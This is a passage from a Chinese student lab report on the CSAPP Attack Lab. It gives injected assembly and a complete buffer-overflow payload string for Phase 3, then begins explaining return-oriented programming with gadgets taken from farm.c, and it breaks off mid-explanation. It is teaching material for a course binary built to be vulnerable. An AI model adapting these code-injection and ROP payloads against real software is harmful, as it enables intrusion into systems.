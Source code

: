 ![image-20220608215351117](./CSAPP  Lab Report2.assets/image-20220608215351117.png)

注入代码为：

```assembly
movq	$0x5561dca8, %rdi
pushq	$0x4018fa
retq
```

之后的步骤和 Level 2 差不多，就不一步步截图了，最后构造出来的字符串可以是：

```
48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```

保存为`level3.txt`，做测试。

![image-20220608220242882](./CSAPP  Lab Report2.assets/image-20220608220242882.png)

### Part II: Return-Oriented Programming

**限制**：栈上不可插入可执行代码。

需要在已有程序中寻找以`ret`结尾的特定指令序列（称之为`gadget`），每个`gadget`结束后跳转到下一个`gadget`，就这样连续执行一系列的指令代码来对程序进行攻击。

#### Level 2（Phase 4）

需要做的和 Phase 2 一样，只不过处理手段要按照**限制**来做。

README 提示我们，`gadget`需要从`farm.c`中获取，并且编译的时候需要`-Og`，那么我们先编译`fram.c`，获得汇编代码，看看有哪些可以用。

> - All the gadgets you need can be found in the region of the code for rtarget demarcated by the functions `start_farm` and `mid_farm`.
>
> - You can do this attack with just two gadgets. 

我们在 Phase 2 的汇编代码中用到

```assembly
movq	$0x59b997fa, %rdi
pushq	$0x4017ec
retq
```

用`gadget`来做，需要用到两个指令：`popq`和`movq`。`popq`会把栈顶的 cookie 弹出到某寄存器，再用`movq`命令传送给`%rdi`，也即

```assembly
popq	%rax
movq	%rax, %rdi
```

查表得知，第一行的指令为`58`，可以用

```assembly
0000000000000035 <setval_424>:
  35:	f3 0f 1e fa          	endbr64 
  39:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  3f:	c3 
```
